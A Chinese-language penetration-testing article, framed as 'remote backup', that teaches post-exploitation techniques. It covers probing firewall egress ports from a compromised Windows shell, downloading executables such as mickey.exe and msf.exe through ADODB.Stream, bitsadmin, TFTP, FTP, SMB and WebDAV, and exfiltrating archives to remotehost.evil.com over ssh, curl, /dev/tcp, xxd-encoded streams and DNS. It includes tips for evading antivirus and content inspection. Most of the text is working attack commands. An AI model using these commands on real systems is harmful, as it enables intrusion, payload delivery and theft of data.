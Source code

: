 # 远程备份数据库和文件的方法

作者：Mickey和Anthr@X

Windows
-------

* * *

### 1.判断什么端口能出来

有时候有防火墙,你也不知道哪个端口能出来,你只有SHELL,咋判断什么端口能出来呢?如果你是在WIN VISTA以下版本,那么用下面的命令可以啦

```
FOR /L %i IN (1,1,65535) DO (cmd /c "start /b telnet 1.2.3.4 %i") 

```

用TELNET不停的连接你的1-65535端口,你本地开个TCPDUMP就行了,如果连通了,就OK了.  
如果TCP封锁了,可以用UDP

```
FOR /L %i IN (1,1,65535) DO (cmd /c "start /b nslookup -port=%i wooyun.org 1.2.3.4") 

```

这个就更慢了,但是有效,其中的wooyun.org是你可以设置自己的动态域名

如果是VISTA以后的版本,自带有POWERSHELL:

下面分别是走TCP和UDP的

```
function sT($IP,$Port) {$Address = [system.net.IPAddress]::Parse($IP);$End = New-Object System.Net.IPEndPoint $address, $port;$Saddrf = [System.Net.Sockets.AddressFamily]::InterNetwork;$Stype = [System.Net.Sockets.SocketType]::Stream;$Ptype = [System.Net.Sockets.ProtocolType]::TCP;$Sock = New-Object System.Net.Sockets.Socket $saddrf, $stype, $ptype;$Sock.TTL = 26;try { $sock.Connect($End);[Byte[]] $Message = [char[]]"w00tw00t";$Sent = $Sock.Send($Message);$sock.EndConnect($Connect)} catch {};$Sock.Close();};1..65535 | %{ sT -IP "1.2.3.4" -Port $_ } 

```

  

```
function sU($IP, [int]$Port){$Address = [system.net.IPAddress]::Parse($IP);$End = New-Object System.Net.IPEndPoint($Address, $port);$Saddrf=[System.Net.Sockets.AddressFamily]::InterNetwork;$Stype=[System.Net.Sockets.SocketType]::Dgram;$Ptype=[System.Net.Sockets.ProtocolType]::UDP;$Sock=New-Object System.Net.Sockets.Socket $saddrf, $stype, $ptype;$Sock.TTL = 26;$sock.Connect($end);$Enc=[System.Text.Encoding]::ASCII;$Message = "w00tw00t";$Buffer=$Enc.GetBytes($Message);$Sent=$Sock.Send($Buffer);}; 1..65535 | %{ sU -IP "1.2.3.4" -Port $_ } 

```

### 2.WIN下传文件

如果是VISTA以下版本,可以用TFTP/FTP/TELNET,这个网上文章很多的了,另外如果你搞的是国外的,不要忘记SMB,如果能走HTTP的80,可以用VBS的ADODB.Stream来下载,不过这个已经被很多杀毒软件杀了,编写的时候编码混淆下就行了.但不保证能过主动防御,还是少用,另外zzzEVAzzz的那个Any2Bat可以直接传文件,就是体积有限制,不能传太大的文件,传小马的话应该可以了.如果能走80的话,还可以尝试下WEBDAV,WIN Vista以后就方便了,直接用内建命令bitsadmin就行了

#### 使用ADODB.Stream来传文件

code 1:

```
Set objXMLHTTP = CreateObject("MSXML2.XMLHTTP") : objXMLHTTP.open "GET", "http://192.168.1.43/mickey.exe", false : objXMLHTTP.send() : Set objADOStream = CreateObject("ADODB.Stream") : objADOStream.Open : objADOStream.Type = 1 : objADOStream.Write objXMLHTTP.ResponseBody : objADOStream.Position = 0 : Set objFSO = Createobject("Scripting.FileSystemObject") : objADOStream.SaveToFile "C:\msf.exe":objADOStream.Close 

```

code 2:

```
function HTTPGetDownload(url, file) {  
var http = new ActiveXObject("WinHttp.WinHttpRequest.5.1");  
http.open("GET", url);  
http.send();  
var stream = new ActiveXObject("ADODB.Stream");  
stream.type = 1;  
stream.open();  
stream.write(http.responseBody);  
stream.saveToFile(file,2); }  
HTTPGetDownload("http://1.2.3.4/mickey.exe", "mickey.exe"); 

```

#### 使用bitsadmin来传文件:

code 3:

```
bitsadmin /rawretrun /transfer getfile http://pentest.cc/mickey.exe c:\mickey.exe 

```

#### 走UDP的TFTP:

code 4:

```
tftp –i 1.2.3.4 GET mickey.exe 

```

#### 使用FTP:

code 5:

```
echo open 1.2.3.4 > x&echo user 2 2 >> x &echo get mickey.exe >> x &echo quit >> x &ftp -n -s:x 

```

#### 使用TELNET:

情景假设,我是LINUX要传文件到WIN上去

首先我在本地的LINUX上用NC执行

```
nc -lvp 23 < mickey.txt  

```

然后我在WIN上执行

```
telnet 我的LINUX主机的IP -f c:\mickey.txt  

```

这样就把我linux主机上的mickey.txt文件拷贝到win主机的c盘下了

#### 使用SMB传送文件:

情景假设,我是LINUX要传文件到WIN上去

首先我在本地的LINUX上配置好SAMBA服务

```
nano /etc/samba/smb.conf  
[hack]  
    comment = File Server Share  
    path = /tmp/  
    browseable = yes  
    writable = yes  
    guest ok = yes  
    read only = no  
    create mask = 0755 

service samba start 

```

然后我在WIN上执行

```
C:\>net use z: \\192.168.10.80\hack
copy z:\mickey.exe C:\mickey.exe 

```

#### 通过WEBDAV来传文件:

```
net use o: "http://192.168.200.18/uploads"  
copy z:\mickey.exe C:\mickey.exe

```

也可以走HTTPS

```
net use o: "https://192.168.200.18/uploads"  

```

但是需要在主机上开启WebClient服务,才能成功

```
net start WebClient 

```

下面是Anthr@X牛的,主攻LINUX

Linux
-----

* * *

当我们想要把一个服务器里面的数据打包备份到另一个服务器的时候，这些命令可能会有帮助。

### 1.tar over ssh

一边tar一边通过ssh传到服务器并且自动解压缩，最后会得到远程服务器上文件夹的一份完美备份，并且在目标服务器上不会写入任何文件。

```
tar zcf - /some/localfolder | ssh remotehost.evil.com "cd /some/path/name; tar zxpf -" 

```

### 2. rsync over ssh

通过ssh隧道同步，要求是本地服务器要安装了rsync

```
rsync -aH localhost remotehost.evil.com:/some/path/name 

```

假如ssh默认的22端口被封，那么你可以用ssh -p 或者 rysnc --port指定端口，比如可以把ssh服务器开到80或者443端口。

如果连SSH协议都被封了呢，怎么换端口都没用怎么办？别怕，我们可以把数据通过https发送：

```
tar zcf - localfolder | curl -F "data=@-" https://remotehost.evil.com/script.php

```

curl -F 表示通过伪表单用Post方式发送数据

当然，你还要在本地建一个script.php用来收取数据然后写入到文件才行，并且web服务器要支持ssl并且有https证书。

不过curl在很多linux发行版里面都没有默认安装，所以还是有时候还是不太靠谱。

那么现在不能用ssh也不能用curl，那怎么办？

### 直接通过tcp发送

```
tar zcf - localfolder >/dev/tcp/remotehost.evil.com/443 

```

大家看这个方式是不是有点眼熟？没错，就是和弹shell的方法差不多，只不过这次我们用来传送文件。

效果和用nc传文件是一样的。假如远程服务器和网络还有内容检测的话，我们还可以对文件进行一些编码来混淆，比如用xxd命令转换成16进制 dump

```
tar zcf - localfolder | xxd -p >/dev/tcp/remotehost.evil.com/443  

```

本地服务器可以用xxd -r来还原源文件

其实除了xxd，用 base64也不错，就是有点明显……

更奇葩的方法，用DNS来传送数据：

```
tar zcf - localfolder | xxd -p -c 16 |  
    while read line; do host $line.domain.com remotehost.evil.com; done 

```

把打包后的数据用16进制编码，每行16字节，这样在通过dns发送到时候就不会因为超长导致出错。然后我们限制每次只发送1个ping数据包，减少发送时间。至于怎么还原，那就要看你的了。